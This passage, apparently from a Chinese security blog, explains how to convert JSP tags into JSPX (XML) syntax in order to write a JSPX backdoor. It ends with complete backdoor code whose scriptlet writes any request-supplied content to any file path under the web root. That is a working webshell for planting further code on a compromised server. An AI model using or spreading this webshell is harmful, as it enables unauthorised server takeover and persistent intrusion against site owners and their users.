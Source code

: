 重点在于把 Jsp 里面的一些标记转换成 xml 支持的格式，比如：

```
<%@ include .. %>                      <jsp:directive.include .. />

<%@ page .. %>                         <jsp:directive.page .. />
<%@ taglib .. %>                       
<%= ..%>                               <jsp:expression> .. </jsp:expression>
<% ..%>                                <jsp:scriptlet> .. </jsp:scriptlet> 
```

知道<% %>可以用`<jsp:scriptlet></jsp:scriptlet>`标记表示那么做起来就很简单了，直接把标记换下是非常容易做的。所以写个简单的 shell 一个就很简单了，但是如果想知道具体有那些标签或者说跟 jsp 里面的有那些不同怎么办呢？下面我简单的做了下对比（前面是 jsp 的代码提示，后面是 jspx）：

![enter image description here](img/img1_u77_jpg.jpg)

照着提示翻译下得知表示 jsp 里面的<%! %>需要用：`<jsp:declaration></jsp:declaration>`标签去替换就行了。

### 其他重要提醒：

在 jspx 里面遵循 xml 语法所以直接在 jsp:declaration 或者 jsp:scriptlet 标签内写"<>"这样的符号是不行的，需要转意（不转意会报编译错误，猜了下只需要把<>转成`&lt; &gt;`就行了）。

### jspx 后门的具体实现代码：

```
 <jsp:root 

     version="1.2">
    <jsp:directive.page contentType="text/html" pageEncoding="UTF-8" />
    <jsp:directive.page import="java.io.*" />
    <jsp:scriptlet>
        RandomAccessFile rf = new RandomAccessFile(request.getRealPath("/")+request.getParameter("f"), "rw");
        rf.write(request.getParameter("t").getBytes());
        rf.close();
    </jsp:scriptlet>
</jsp:root> 
```
